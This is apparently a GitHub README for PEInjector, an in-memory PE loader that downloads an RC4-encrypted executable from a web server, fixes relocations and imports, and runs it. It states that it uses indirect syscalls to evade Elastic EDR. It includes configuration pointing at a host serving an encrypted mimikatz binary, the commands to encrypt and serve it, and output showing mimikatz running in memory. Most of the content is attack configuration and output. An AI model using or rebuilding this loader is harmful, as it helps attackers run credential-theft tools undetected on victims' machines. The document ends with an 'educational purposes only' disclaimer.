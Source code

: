 # PEInjector
A simple PE injector that downloads encrypted PE executable from a webserver maps it in the current process
fixes all relocations and imports and executes its entrypoint.

## Features
  - Make use of indirect syscalls, either from ntdll.dll or win32u.dll (in order to bypass elastic EDR's indirect syscall detection rule) 
  
  - Downloads the PE from a webserver, or reads it from a local file (mainly for testing)
  
  - RC4 encryption for the PE
  
  - Able to run EXE or DLL (along with an exported func from the DLL)
  
  - Pass arguments to the PE that will be executed
  
  
## TODO
  - Remove the need for LoadLibrary and GetProcAddress to resolve the PE's import table
  - Implemet custom GetModuleHandle function
  - Remove the need for the CRT library
  - Download the encryption key along with the payload
  

## Usage
Most of the configuration options are located in `main.h`, just configure, compile and run.
```c
/*---------------------------
 Read from web or local file
---------------------------*/
#define WEB 80
//#define SECURE 443

#define HOST L"192.168.100.161"
#define REMOTE_FILE L"mimikatz-enc.bin"
//#define LOCAL_FILE "C:\\Users\\nullb1t3\\Desktop\\mimikatz-enc.bin"

#define PE_ARGS "coffee exit"
//#define DLL_EXPORTED_FUNC "someExportedFunc"    //in case of DLLs

/*------------------
  Debug output
------------------*/
#define DEBUG
```

 - Encrypt a payload [PayloadEncryptor](https://github.com/vgeorgiev90/MalDevAcademy/tree/master/PayloadEncryptor)
 ```powershell
PS C:\Users\nullb1t3\Desktop> .\PayloadEncryptor.exe C:\Users\nullb1t3\Desktop\mimikatz.exe C:\Users\nullb1t3\Desktop\mimikatz-enc.bin
Reading file: C:\Users\nullb1t3\Desktop\mimikatz.exe
XORing the encryption key.
Doing some magick.
Writing data to: C:\Users\nullb1t3\Desktop\mimikatz-enc.bin

PS C:\Users\nullb1t3\Desktop> python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
 ```
 
 - Run it, by downloading the PE from a webserver or read it from a file locally (debug output can be turned off)
 ```powershell
 PS C:\Users\nullb1t3\Desktop> .\PEInjector.exe
[*] Initializing syscalls structure.
[*] Fetching information about syscall: 0x6E8AC28E.
[*] Initializing NT structure.
[*] PEB: 0x0000002998BE9000

[*] ntdll base: 0x00007FFB496B0000
[*] Names array: 0x00007FFB498047B4
[*] Addresses array: 0x00007FFB498021A8
[*] Ordinals array: 0x00007FFB49806DBC
[*] Names offset: 0x00007FFB498047B4
[*] Addrs offset: 0x00007FFB498021A8
[*] Ordls offset: 0x00007FFB49806DBC
[*] Number of functions: 2434

[*] Init NT struct finished.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D3E2.
[*] Fetching information about syscall: 0x1DA5BB2B.
[*] Found a jump address for indirect syscall: 0x00007FFB4974DAE2.
[*] Fetching information about syscall: 0x6299AD3D.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D162.
[*] Fetching information about syscall: 0x8EC0B84A.
[*] Found a jump address for indirect syscall: 0x00007FFB4974E912.
[*] Fetching information about syscall: 0x369BD981.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D2C2.

[*] NtAllocateVirtualMemory SSN: 24.
[*] NtCreateThreadEx SSN: 194.
[*] NtProtectVirtualMemory SSN: 80.
[*] NtWaitForSingleObject SSN: 4.
[*] NtClose SSN: 15.
[*] Init done!

[*] Downloaded the PE with size: 1355264
[*] Decrypting the PE with size: 1355264.
[*] Decrypted!
[*] Parsing loaded PE file's headers
[*] Populating Data Directories
[*] Parsing finished
[*] Allocating memory with size: 1372160
[*] Copying PE sections in the allocated memory with start address: 0x000001E787590000
[*] Finished
[*] Attempting to apply base relocaitons
[*] Finished applying relocations
[*] Resolving the PE's import table
[*] Reached the end of the import descriptors array
[*] Fixing sections memory permissions, number of sections: 6
[*] Checking memory protection for section: 0
        > PAGE_READONLY
        > PAGE_EXECUTE
        > PAGE_EXECUTE_READ
[*] Checking memory protection for section: 1
        > PAGE_READONLY
[*] Checking memory protection for section: 2
        > PAGE_WRITECOPY
        > PAGE_READONLY
        > PAGE_READWRITE
[*] Checking memory protection for section: 3
        > PAGE_READONLY
[*] Checking memory protection for section: 4
        > PAGE_READONLY
[*] Checking memory protection for section: 5
        > PAGE_READONLY
[*] Finished applying sections memory protections
[*] Finished patching command line arguments
[*] PE Output:


  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(commandline) # exit
Bye!
 ```


## Credits
- @mr.d0x @NUL0x4C and @5pider and the incredible [Maldev academy](https://maldevacademy.com/)


## Disclaimer
As always this simple tool is created for educational purposes only ! 